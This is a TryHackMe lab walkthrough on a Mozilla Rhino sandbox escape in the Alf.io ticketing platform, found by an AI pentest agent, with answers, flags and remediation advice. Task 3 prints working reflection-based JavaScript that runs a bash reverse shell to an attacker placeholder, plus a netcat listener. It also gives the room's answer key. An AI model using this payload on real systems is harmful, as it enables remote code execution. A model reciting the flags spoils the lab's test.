


# NoScope: Finding RCE (TryHackMe) - Walkthrough

| Room Details | Information |
| :--- | :--- |
| **Room Name** | [NoScope: Finding RCE](https://tryhackme.com/room/noscoperce) |
| **Learning Path** | [Security Engineer](./0-README.md) |
| **Target Application** | Alf.io (v2.0-M5-2509-1) |
| **Vulnerability** | [CVE-2026-35482](https://nvd.nist.gov/vuln/detail/CVE-2026-35482) (Mozilla Rhino Sandbox Escape to RCE) |
| **Difficulty** | Medium |
| **Topics Covered** | Autonomous AI Penetration Testing, Multi-Agent Verification, Java Sandbox Escapes, Java Reflection Abuse, Reverse Shell Execution |

---

## Overview & Architecture

### Target Profile: Alf.io
**Alf.io** is an open-source, Java and Spring Boot-based event management and ticketing platform widely utilized by tech conferences, sports organizations, and festival coordinators. 

To provide organizations with flexible automation, Alf.io includes a dynamic **Extensions System**. When critical business events occur (such as ticket reservations, invoice generation, or event status updates), administrators can register and execute custom JavaScript code directly on the server to customize the workflow.



### The Autonomous Agent: NoScope
Unlike traditional vulnerability scanners that rely solely on deterministic signatures, **NoScope** is an autonomous AI-driven penetration testing platform designed to discover, validate, and exploit complex, logic-driven zero-day vulnerabilities. It operates via specialized cooperative agents:



---

## Task 1: Introduction

Task 1 introduces the core objectives and environment of the lab:
* Understand the shift from static AST-based rules to autonomous agentic reasoning in penetration testing.
* Learn how automated systems reason about application runtime environments to detect subtle sandbox breakouts.
* Manually reproduce the exploit chain discovered by the AI agent to gain an interactive reverse shell.

> [!NOTE]
> *No answer is required for this setup task.*

---

## Task 2: Vulnerability Hunting with NoScope

In this task, you configure and launch an automated penetration test using the NoScope web platform and monitor the real-time reasoning and execution logs of the AI agents.

### 1. Configure the Application Target
Open the NoScope web interface in your browser and complete the 7-step onboarding wizard:

1. **Step 1 (Application Details):** Provide an application name (e.g., `Alf.io`), select the primary objective/reason for the pentest (e.g., *Application Security Assessment*), and select the environment (`Staging / Lab`).
2. **Step 2 (Target & Scope):** Enter the target machine IP address provided on your TryHackMe dashboard:
   ```text
   http://10.49.177.59
   ```
3. **Steps 3–6 (Auth, Triggers & Mode):** Keep the default parameters or use sample placeholder data where applicable.
4. **Step 7 (Review & Submit):** Review your scope boundaries and click **Submit** to trigger the autonomous pentest.

### 2. Analyze the AI Execution Logs & Subagent Interactions
Once initiated, watch the real-time activity stream:
1. **Reconnaissance & Technology Fingerprinting:**  
   The reconnaissance agent identifies Alf.io running version `2.0-M5-2509-1`. It inspects the extension system and identifies that user-submitted JavaScript executes server-side using **Mozilla Rhino**.
2. **Vulnerability Analysis (CVE-2026-35482):**  
   The AI agent attempts basic Java reflection payloads (e.g., `java.lang.Runtime`). The application blocks direct instantiation using a deny-list. However, the agent inspects the runtime scope variables and discovers the presence of `returnClass`.
3. **Independent Verification (The Challenger Agent):**  
   To eliminate false positives and ensure repeatable findings, the Coordinator dispatches the **Challenger** agent. The Challenger reproduces the exact breakout payload in a pristine, independent session before promoting the issue to a verified critical finding.
4. **Flag Extraction:**  
   The agent executes a command to read `/flag.txt` from the underlying Linux container, proving end-to-end Remote Code Execution.

---

### Task 2 Questions & Answers

> [!NOTE]
> **Question 1:** What sandboxing engine did NoScope identify as the one in use?  
> **Answer:** `Mozilla Rhino`

> [!NOTE]
> **Question 2:** Which agent independently reproduced the exploit before it was promoted to a confirmed finding?  
> **Answer:** `Challenger`

> [!IMPORTANT]
> **Question 3:** What was the flag value NoScope retrieved out of the flag.txt file during its engagement?  
> **Answer:** `THM-{ALF_CV3_PWN}`  
> *(Note: depending on the room revision, it may also format as `THM{ALF_CV3_PWN}`)*

---

## Task 3: Weaponizing the CVE (Manual Exploitation)

Having observed the AI agent's findings, you now switch to your AttackBox or local terminal to manually reproduce the sandbox escape and establish a persistent interactive reverse shell.

### Root Cause Analysis: The `returnClass` Flaw
The Alf.io extension engine executes JavaScript scripts using Mozilla Rhino. To protect the host operating system, the developers implemented a security filter that denies direct access to sensitive Java classes:
* `java.lang.Runtime`
* `java.lang.ProcessBuilder`
* `java.lang.reflect.*`

However, the application injected an instance of `java.lang.Class` into the script's global scope under the variable name **`returnClass`**.

Because `returnClass` is an unrestricted `java.lang.Class` object:
1. It inherits the native `.forName(String className)` method.
2. The sandbox deny-list only checks literal identifiers in the script code; it does not intercept the dynamic string parameter passed into `returnClass.forName(...)`.
3. An attacker can load `java.lang.Runtime` dynamically and invoke methods via Java reflection.

```javascript
// Step 1: Load Runtime class through the exposed Class object
var runtimeClass = returnClass.forName("java.lang.Runtime");

// Step 2: Retrieve the static getRuntime() method
var getRuntimeMethod = runtimeClass.getMethod("getRuntime", []);

// Step 3: Invoke getRuntime() to obtain a Runtime instance
var runtimeInstance = getRuntimeMethod.invoke(null, []);

// Step 4: Resolve the exec(String) method
var execMethod = runtimeClass.getMethod("exec", [returnClass.forName("java.lang.String")]);

// Step 5: Execute system commands on the host OS
execMethod.invoke(runtimeInstance, ["bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'"]);
```

---

### Step-by-Step Walkthrough

#### 1. Start a Netcat Listener
On your AttackBox or host machine connected via OpenVPN, start a listener:
```bash
nc -lvnp 4444
```

#### 2. Access the Alf.io Administrative Interface
Navigate to `http://[MACHINE_IP]:8080/admin/` (or the mapped application port) using the administrative credentials provided in the lab.

#### 3. Register the Malicious Extension Script
1. Navigate to **Event Management** -> **Extensions** (or **Settings** -> **Extensions**).
2. Create or edit an extension script.
3. Bind the extension to an event that can be triggered on demand (e.g., `EVENT_STATUS_CHANGE` or ticket reservation).
4. Insert the reverse shell payload (replacing `<ATTACKER_IP>` with your VPN IP, e.g., `10.50.x.x`):

```javascript
var rtClass = returnClass.forName("java.lang.Runtime");
var rtInstance = rtClass.getMethod("getRuntime", []).invoke(null, []);
var execCmd = rtClass.getMethod("exec", [returnClass.forName("java.lang.String")]);
execCmd.invoke(rtInstance, ["bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'"]);
```

#### 4. Trigger the Extension Event
Navigate to your event dashboard and trigger the bound event (e.g., change the status of an event from `Draft` to `Public`).

#### 5. Catch the Shell & Verify System Access
Your netcat listener will immediately receive an inbound connection from the host container:

```text
Connection from 10.49.177.59 48392 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
app@alf-io-container:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)

app@alf-io-container:/app$ cat /flag.txt
THM-{ALF_CV3_PWN}
```

> [!TIP]
> **Task 3 Question:** Manual reproduction completion / Shell confirmation.  
> **Status:** Completed upon verifying interactive shell access and confirming `/flag.txt`.

---

## Task 4: Conclusion

Task 4 wraps up the engagement by examining the future of automated penetration testing and defensive engineering:
* Autonomous multi-agent architectures (like NoScope's Coordinator-Recon-Exploiter-Challenger model) reduce manual discovery time from days to minutes while maintaining low false-positive rates.
* Complex logic vulnerabilities and sandbox escapes often slip past conventional SAST/DAST tools because they arise from interactions between runtime bindings and language-level reflection.

> [!NOTE]
> *No answer is required for this concluding task.*

---

## 📋 Questions & Answers Summary

| # | Task | Question | Answer |
| :-: | :--- | :--- | :--- |
| **1** | Task 2 | What sandboxing engine did NoScope identify as the one in use? | `Mozilla Rhino` |
| **2** | Task 2 | Which agent independently reproduced the exploit before it was promoted to a confirmed finding? | `Challenger` |
| **3** | Task 2 | What was the flag value NoScope retrieved out of the flag.txt file during its engagement? | `THM-{ALF_CV3_PWN}` |
| **4** | Task 3 | Weaponize the CVE manually and achieve Remote Code Execution | *Interactive Shell & Flag Verified* |
| **5** | Task 4 | Conclusion | *No answer needed* |

---

## 🛡️ Security Engineering & Defensive Remediation

### 1. Inherent Weakness of Deny-Lists for Java Sandboxing
Blocking specific class names (such as `java.lang.Runtime`) is an anti-pattern in Java applications. The Java runtime provides myriad paths to achieve reflection or load classes:
* `Class.forName()`
* `ClassLoader.loadClass()`
* `MethodHandles.lookup()`
* Unchecked method invocation on arbitrary object instances

### 2. Securing Mozilla Rhino Sandboxes
When running embedded script engines in Java:
* **Implement a Strict `ClassShutter`:** Always use Rhino's `ClassShutter` interface to enforce an **allow-list** of safe packages (e.g., `java.lang.String`, `java.lang.Integer`, `java.util.Date`). Any class not explicitly permitted will throw a `SecurityException`.
* **Zero Host Reflection:** Never pass raw Java `Class` references, `ClassLoader` references, or reflection objects into the scripting scope.
* **Modern Isolation Alternatives:** Rather than running untrusted scripts in-process, utilize process-isolated sandbox runtimes like WebAssembly (e.g., Chicory or Wasmtime) or containerized microVMs (e.g., gVisor, Firecracker).

### 3. Vendor Remediation in Alf.io
The vulnerability was officially addressed in **Alf.io version 2.0-M5-2606**:
* Removed the leaked `returnClass` reference from extension scopes.
* Enforced stricter `ClassShutter` constraints blocking reflection lookups across all scripting environments.
* Added security auditing to ensure extension scripts execute with strictly bounded privileges.
